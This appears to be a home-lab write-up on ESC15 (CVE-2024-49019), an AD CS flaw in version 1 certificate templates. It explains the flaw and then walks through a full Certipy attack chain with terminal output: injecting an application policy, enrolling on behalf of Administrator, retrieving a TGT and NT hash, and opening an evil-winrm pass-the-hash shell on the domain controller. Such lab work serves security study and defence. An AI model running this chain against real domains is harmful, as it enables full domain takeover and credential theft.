




# 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 6 (ESC15) Abuse Guide

### What is ESC15 (CVE-2024-49019) – Arbitrary Application Policy Injection in V1 Templates?

**ESC15**, also known as **"EKUwu"**, is a critical vulnerability (CVE-2024-49019) in **Active Directory Certificate Services (AD CS)** affecting **Version 1 (V1) certificate templates**. Discovered by Justin Bollinger from TrustedSec, the flaw allows attackers to manipulate the **Application Policies** field of a certificate request—even when those policies are not defined in the original certificate template.


In this attack, an adversary with **enrollment rights** can request a certificate while supplying:

* An arbitrary **subject name** (like a Domain Admin's UPN)
* A malicious **application policy** (like Client Authentication or Certificate Request Agent)

Although the v1 template might be configured to issue certificates only for specific purposes (e.g., Server Authentication), Microsoft’s implementation of AD CS **gives preference to Application Policies** (a Microsoft-specific extension) over standard **Extended Key Usage (EKU)** when both are present. This allows the attacker to override the intended use of the certificate.

---


### The Core Issue

When a Certificate Authority (CA) that hasn't been patched (as of November 2024) processes a request using a vulnerable V1 template, it may **blindly accept and embed attacker-supplied Application Policies** into the resulting certificate. This happens even if the template is not configured for those usages, essentially **overriding the intended restrictions**.

For example:

* A Web Server template is typically meant for **Server Authentication only**.
* An attacker can inject a **Client Authentication policy** (OID: `1.3.6.1.5.5.7.3.2`) into the request.
* If the CA is vulnerable, it will issue a certificate that includes both Server Authentication and Client Authentication—even though the template was only supposed to allow the former.
* That certificate can now be used to log in to systems that require **Client Authentication**, potentially allowing **unauthorized access as a domain user or admin**.

---

### Why It Works

* **V1 templates** lack the granular control of newer versions and don’t separate **Application Policies** from **Extended Key Usage (EKU)** as clearly.
* Windows prioritizes **Application Policies** over EKUs when both are present.
* If a template allows the requester to provide the **Subject Name** (i.e., `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`), attackers can also spoof identities, making this especially dangerous.
* The attack **does not require elevated privileges**—just access to request certificates from a vulnerable template.

---

## Lab Environment Setup for Demonstrating ESC15 Exploitation

### Step 1:

First, we have a default web server template with schema version 1. Other templates have version 2, and we cannot downgrade from 2 to 1.


The attacker (authenticated user) must have **Enroll** permissions for the template.



2. The template must allow **Supplied in the request**.



3. The template has a schema version of 1.




## Enumerating AD CS for ESC15 Vulnerability

```
certipy find -u jcharles@furious.local -p complex1@ -dc-ip 192.168.129.140 

```



#### ESC15 Vulnerability Flags

- EnrolleeSuppliesSubject

-  Schema Version = 1

-  Authenticated Users can enroll

- EKU does not include Client Authentication — must override using Certipy with:

```
-application-policies "1.3.6.1.4.1.311.20.2.1"
```
## Exploitation of ESC15 Vulnerability Using Certipy

Requests a certificate for jcharles using the WebServer template with `Client Authentication` EKU, saving it to a .pfx file

```
certipy req -u 'jcharles@furious.local' -p 'complex1@' -application-policies "1.3.6.1.4.1.311.20.2.1" -ca furious-DC01-FURIOUS5-CA -template WebServer -dc-ip 192.168.129.140

```
```                                          
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ certipy req -u 'jcharles@furious.local' -p 'complex1@' -application-policies "1.3.6.1.4.1.311.20.2.1" -ca furious-DC01-FURIOUS5-CA -template WebServer -dc-ip 192.168.129.140

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 83
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'jcharles.pfx'
[*] Wrote certificate and private key to 'jcharles.pfx'

```
Performs a certificate request on behalf of the Administrator using the previously obtained certificate (`jcharles.pfx`), enabling impersonation.
```
certipy req -u 'jcharles@furious.local' -p 'complex1@' -on-behalf-of furious\\Administrator -template User -ca furious-DC01-FURIOUS5-CA -pfx jcharles.pfx -dc-ip 192.168.129.140 
```
```
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ certipy req -u 'jcharles@furious.local' -p 'complex1@' -on-behalf-of furious\\Administrator -template User -ca furious-DC01-FURIOUS5-CA -pfx jcharles.pfx -dc-ip 192.168.129.140 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 85
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@furious.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
                                                  
```
Authenticates as Administrator using the .pfx certificate and retrieves a valid TGT and NT hash.

```
sudo ntpdate $IP  
certipy auth -pfx administrator.pfx -dc-ip 192.168.129.140
```
```
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ sudo ntpdate $IP  
2025-06-12 11:27:58.989523 (-0400) -13749.186618 +/- 0.001100 192.168.129.140 s1 no-leap
CLOCK: time stepped by -13749.186618
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ certipy auth -pfx administrator.pfx -dc-ip 192.168.129.140
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@furious.local'
[*] Using principal: 'administrator@furious.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@furious.local': aad3b435b51404eeaad3b435b51404ee:e6c278088a8bee2149534efa88d188f1
```


### Pass the Hash

Establishes a remote PowerShell session to the domain controller as administrator using the retrieved NTLM hash (Pass-the-Hash attack).
```
evil-winrm -i 192.168.129.140 -u administrator -H e6c278088a8bee2149534efa88d188f1
```
```                                                                                          
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC15]
└─$ evil-winrm -i 192.168.129.140 -u administrator -H e6c278088a8bee2149534efa88d188f1

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
furious\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```


## References

- [ADCS Exploitation Series Part 2: Certificate Mapping (ESC15) – OffsecDeer](https://medium.com/@offsecdeer/adcs-exploitation-series-part-2-certificate-mapping-esc15-6e19a6037760)

- [ESC15 Vulnerability – Ravenswood Technology Group](https://www.ravenswoodtechnology.com/esc15-vulnerability/)

- [EKUwu: Not Just Another AD CS ESC – TrustedSec](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)

- [Certipy Wiki - Privilege Escalation via ADCS (ESC1–ESC15)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)